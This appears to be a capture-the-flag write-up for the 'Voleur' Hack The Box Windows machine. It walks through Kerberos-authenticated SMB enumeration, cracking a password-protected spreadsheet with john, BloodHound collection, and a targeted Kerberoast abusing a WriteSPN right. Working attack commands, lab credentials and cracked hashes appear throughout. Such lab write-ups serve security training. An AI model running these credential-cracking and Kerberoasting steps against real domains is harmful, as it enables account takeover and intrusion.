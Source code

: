 
![](machine_card-voleur.png)

## INFO

```
Machine Information
As is common in real life Windows pentests, you will start the Voleur box with credentials for the following account: ryan.naylor / HollowOct31Nyt
```

There ain't NTLM Authentication ; So gotta do Kerberos way !! As its Kerberos auth. the time need to maintained.   

```
└─# faketime '2025-09-25 12:45:24' nxc smb dc.voleur.htb -u ryan.naylor -p HollowOct31Nyt -k
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
```

Lets check the available shares ; Found we got read access on IT share. Lets explore ; 

```
└─# faketime '2025-09-25 12:45:24' impacket-smbclient voleur.htb/ryan.naylor:HollowOct31Nyt@dc.voleur.htb -k
```

![](smb_access-voleur.png)

Its password protected ; Lets cracxk the password and access the file !

```
└─# office2john Access_Review.xlsx > john

┌──(root㉿BHASHMA)-[~/HTB_/VOLEUR_]
└─# john john --wordlist=/usr/share/wordlists/rockyou.txt 
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 256/256 AVX2 8x / SHA512 256/256 AVX2 4x AES])

football1        (Access_Review.xlsx) 
```

Upon Inspection , We found credentials ! Damn , Cool Lets explore the AD.


![](creds-voleur.png)



Lets Run the BLOODHOUND !!
```
└─# faketime '2025-09-25 13:06:08' bloodhound-python --domain voleur.htb --domain-controller dc.voleur.htb --nameserver 10.10.11.76 --username ryan.naylor --password HollowOct31Nyt --collectionmethod all --dns-tcp
```

As We have the credentials of svc_ldap , We got privileges !!


![](svc_ldap-voleur.png)

```
The user SVC_LDAP@VOLEUR.HTB has the ability to write to the "serviceprincipalname" attribute to the user SVC_WINRM@VOLEUR.HTB.
```

SVC_LDAP --> SVC_WINRM [WRITE_SPN](https://bloodhound.specterops.io/resources/edges/write-spn)

```
└─# faketime '2025-09-25 13:57:25' python targetedKerberoast.py -k --dc-host dc.voleur.htb -u svc_ldap -d voleur.htb
```
```
└─# john winrm_hash --wordlist=/usr/share/wordlists/rockyou.txt 

AFireInsidedeOzarctica980219afi  ::  svc_winrm
```

Lets Login to the box ; in-order to login winrm with kerberos we need to configure the /etc/krb5.conf file ;  Or Use  this  [alternative](https://github.com/adityatelange/evil-winrm-py) , install it in a virtual environment. 



